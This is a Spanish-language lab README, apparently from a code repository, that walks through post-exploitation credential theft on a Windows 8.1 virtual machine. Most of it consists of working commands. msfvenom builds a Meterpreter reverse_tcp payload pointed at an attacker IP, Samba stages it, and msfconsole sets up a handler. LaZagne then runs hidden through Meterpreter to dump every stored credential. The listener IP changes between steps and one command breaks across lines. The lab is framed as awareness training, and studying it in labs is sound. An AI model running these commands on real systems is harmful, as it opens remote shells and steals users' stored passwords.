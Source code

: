 #  Laboratorio de Ingeniería Social — Extracción de Credenciales en Windows 8.1

##  Descripción del laboratorio

Este laboratorio simula un escenario de post-explotación en un entorno virtual controlado. El objetivo es demostrar cómo un atacante puede extraer credenciales almacenadas en una máquina Windows 8.1 utilizando herramientas como Meterpreter y LaZagne, sin que el usuario lo note. Todo el ejercicio se realiza con fines educativos y de concientización en ciberseguridad.

## 🛠️ Herramientas utilizadas

- Kali Linux (máquina atacante)
- Windows 8.1 (máquina víctima)
- LaZagne — herramienta de extracción de credenciales
- Meterpreter — ejecución remota
- msfvenom / msfconsole — generación y manejo de payloads
- Samba — para compartir archivos entre máquinas virtuales

## 🎯 Objetivo

Mostrar cómo un atacante puede ejecutar herramientas de extracción de credenciales en una máquina Windows comprometida, usando acceso remoto y técnicas silenciosas. El laboratorio permite entender los riesgos y aplicar medidas de defensa en entornos reales.

## 🧪 Instrucciones paso a paso

### 1. Preparación del entorno

- Inicia Kali Linux y Windows 8.1 en máquinas virtuales.
- Asegúrate de que ambas máquinas estén en la misma red virtual (puente o NAT).

### 2. Instalación de dependencias en Kali
sudo apt update

sudo apt install git python3 python3-pip mingw-w64 -y

git clone https://github.com/AlessandroZ/LaZagne.git

cd LaZagne

pip3 install -r requirements.txt

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.158 LPORT=4444 -f exe -o payload.exe

cp /home/kali/Desktop/payload.exe /home/kali/samba_share/

sudo systemctl restart smbd

sudo systemctl start nmbd

sudo systemctl status smbd

####Acceder desde Windows a la carpeta compartida

________En el explorador de archivos de Windows, accede a \\<IP_Kali>\samba_share

________Copia payload.exe y LaZagne.exe al escritorio de Windows

msfconsole

use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 192.168.101.83

set LPORT 4444

exploit

#######Ejecutar LaZagne desde sesión Meterpreter

execute -f "C:\\Users\\Administrator\\Desktop\\LaZagne.exe" -a "all -oA -output 

C:\\Users\\Administrator\\Desktop\\resultados" -H





